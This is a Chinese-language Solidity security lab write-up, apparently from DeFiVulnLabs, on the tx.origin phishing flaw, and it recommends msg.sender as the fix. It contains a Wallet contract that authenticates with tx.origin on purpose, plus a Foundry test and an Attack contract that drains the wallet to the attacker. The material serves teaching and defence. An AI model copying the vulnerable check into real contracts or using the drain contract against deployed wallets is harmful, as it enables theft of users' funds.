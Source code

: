 # txorigin-网络钓鱼  
[txorigin.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/txorigin.sol)  
**名称：** 不安全的tx.origin漏洞  
tx.origin是Solidity中的一个全局变量，在智能合约中使用此变量进行身份验证会使合约容易受到网络钓鱼攻击。  

**场景：**  
Wallet是一个简单的合约，只有所有者才能转移以太币到另一个地址。Wallet.transfer()使用tx.origin来检查调用者是否是所有者。让我们看看我们如何破解这个合约。  


**发生了什么？**  
Alice被骗去调用Attack.attack().在Attack.attack()函数中，有将Alice钱包中的所有资金转移到Eve的地址的操作。由于Wallet.transfer()中的tx.origin等于Alice的地址，因此它授权了转移。钱包将所有以太币转移给了Eve。

**缓解建议：**  
建议使用msg.sender。  
**参考：**  
https://hackernoon.com/hacking-solidity-contracts-using-txorigin-for-authorization-are-vulnerable-to-phishing  

**合约：**  
```
contract Wallet {
    address public owner;

    constructor() payable {
        owner = msg.sender;
    }

    function transfer(address payable _to, uint _amount) public {
        // 使用msg.sender去检查而不是tx.origin
        require(tx.origin == owner, "Not owner");

        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
}
``` 
**如何测试：**  
forge test --contracts src/test/txorigin.sol -vvvv  
```
// 用于测试使用tx.origin的漏洞的函数。
function testtxorigin() public {
    // “alice”和“eve”的地址是从以太坊虚拟机中获取的。
    address alice = vm.addr(1);
    address eve = vm.addr(2);

    // Alice得到10个以太币，Eve得到1个以太币。
    vm.deal(address(alice), 10 ether);
    vm.deal(address(eve), 1 ether);

    // 对Alice进行作恶
    vm.prank(alice);

    // Alice部署了一个包含10个以太币的钱包合约。
    WalletContract = new Wallet{value: 10 ether}();

    // 将记录钱包合约的所有者。
    console.log("Owner of wallet contract", WalletContract.owner());

    // 对Eve进行作恶
    vm.prank(eve);

    // Eve部署了一个攻击合约，并提供Alice钱包合约的地址。
    AttackerContract = new Attack(WalletContract);

    // 记录攻击合约的所有者。
    console.log("Owner of attack contract", AttackerContract.owner());

    // 记录Eve的余额。
    console.log("Eve of balance", address(eve).balance);

    // Alice被骗调用attack函数
    vm.prank(alice, alice);
    AttackerContract.attack();

    // 记录tx.origin地址和msg.sender地址。
    console.log("tx origin address", tx.origin);
    console.log("msg.sender address", msg.sender);

    // 记录Eve的更新后的余额。
    console.log("Eve of balance", address(eve).balance);
}

// Attack合约用于攻击Wallet合约对漏洞。
contract Attack {
    address payable public owner;
    Wallet wallet;

    // 构造函数将Wallet合约作为参数。
    constructor(Wallet _wallet) {
        wallet = Wallet(_wallet);
        owner = payable(msg.sender);
    }

    // attack函数将所有以太币从Wallet合约转移到Attack合约的所有者。
    function attack() public {
        wallet.transfer(owner, address(wallet).balance);
    }
}
``` 
**红框：** 转移所有的以太币到Eve了。  
![Alt text](image-15.png)